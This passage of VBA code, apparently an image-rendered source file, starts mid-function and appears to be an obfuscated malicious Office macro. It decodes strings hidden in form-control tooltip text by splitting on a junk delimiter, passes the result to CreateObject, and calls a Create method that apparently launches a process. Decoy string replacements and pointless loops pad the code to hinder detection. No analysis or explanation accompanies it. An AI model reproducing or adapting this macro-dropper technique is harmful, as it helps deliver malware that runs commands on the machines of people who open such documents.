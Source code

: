 ```
    Set objectInstance = CreateObject(decryptedString)
    
    Dim isControlVisible As Boolean
    controlTip = controlObject.kaizseah.ControlTipText
    
    Dim replacedString As String
    replacedString = Replace$("LqdFaWZRoPXoybkSqY", "LqdFaWZRoP", "nIEI6Ý")
    
    concatenatedString = decryptedString & chrValue & controlObject.paerwagyouqumeid.ControlTipText & controlTip
    concatenatedString = concatenatedString & controlObject.joefwoefcheaw
    
    Dim loopCounter As Integer
    loopCounter = 4
    Do While loopCounter < 4 + 5
        loopCounter = loopCounter + 3: DoEvents
    Loop

    Set objectCreated = createObjectInstance(concatenatedString)

    Dim finalString As String
    finalString = Replace$("f4åL5åJqZNvlk", "f4åL5åJ", "TFRkfTygd")
    resultArray = Array("1234444123", objectInstance.Create(generateString, concatenateValues, objectCreated), "9938723")

    Dim finalCounter As Integer
    finalCounter = 9
    Do While finalCounter < 9 + 1
        finalCounter = finalCounter + 1: DoEvents
    Loop
End Function

Function decryptString(inputString)
    decryptedValue = inputString
    Dim currencyValue As Currency
    splitValues = Split(decryptedValue, "2342772g3&*gs7712ffvs626fq")
    
    Dim replacedValue As String
    replacedValue = Replace$("UBZIWrn7ÆJAPVmt", "UBZI", "hsvq")
    joinedString = concatenateValues & Join(splitValues, eihnx)
    
    Dim objectVar As Object
    decryptString = joinedString
    
    Dim booleanVar As Boolean
End Function

Function generateString()
    pageText = controlObject.gaoddaicsauktheb.Pages(10 / 10).ControlTipText
    
    Dim integerVar As Integer
    integerVar = 2
    Do While integerVar < 2 + 7
        integerVar = integerVar + 9: DoEvents
    Loop
    
    generateString = decryptString(pageText)
    
    Dim byteVar As Byte
End Function

Function createObjectInstance(inputString)
    Set createObjectInstance = CreateObject(inputString)
```